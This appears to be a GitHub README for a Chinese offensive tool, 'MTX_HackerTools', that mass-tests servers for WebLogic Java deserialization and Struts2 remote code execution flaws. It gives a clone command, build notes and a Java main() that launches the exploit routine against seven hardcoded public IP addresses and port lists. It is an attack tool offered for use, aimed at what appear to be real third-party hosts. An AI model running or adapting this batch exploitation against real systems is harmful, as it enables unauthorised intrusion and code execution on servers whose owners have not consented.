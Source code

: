 # MTX_HackerTools
1、weblogic java deserialize （批量java 反序列化漏洞渗透测试）
2、struts2 Remote Code Execution（批量struts2漏洞渗透测试）

# 代码更新
git clone https://github.com/hktalent/MTX_HackerTools.git

cd MTX_HackerTools
# 编译环境
jdk 1.6
# 使用
com.mtx.xiatian.Main
自己参照函数修改了
/**
	 * @param args
	 */
	public static void main(String[] args)
	{
		// 如果当前环境有代理，就使用系统设置的代理
		System.setProperty("java.net.useSystemProxies", "true");
		
		testWeblogic_Struts2(
				"60.173.247.15;222.168.33.117;58.210.227.26;218.62.83.78;183.131.128.215;222.168.33.108;124.42.10.247", 
				"7001;8001;7001;8080;80;9001;80,7001", 
				"/login");
	}

# 作者
@Hktalent3135773

